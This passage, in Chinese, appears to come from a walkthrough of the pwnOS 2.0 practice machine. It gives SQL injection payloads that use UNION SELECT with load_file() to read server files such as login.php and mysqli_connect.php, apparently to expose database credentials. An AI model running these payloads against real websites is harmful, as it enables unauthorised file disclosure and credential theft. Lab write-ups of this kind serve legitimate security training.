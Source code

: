 

使用

```sql
' union select 1,2,3,load_file('/var/www/login.php'),5,6,7,8-- -&pass=123456
```

爆出`includes/config.inc.php`文件，

```' sql
union select 1,2,3,load_file('/var/www/login.php'),5,6,7,8-- -&pass=123456
```

查看:

![](/img/game/pwnos2.0/1511855939657.png)

```sql
' union select 1,2,3,load_file('/var/www/mysqli_connect.php'),5,6,7,8-- -
```

查看`mysqli_connect.php`文件

![Alt text](/img/game/pwnos2.0/1511856190758.png)
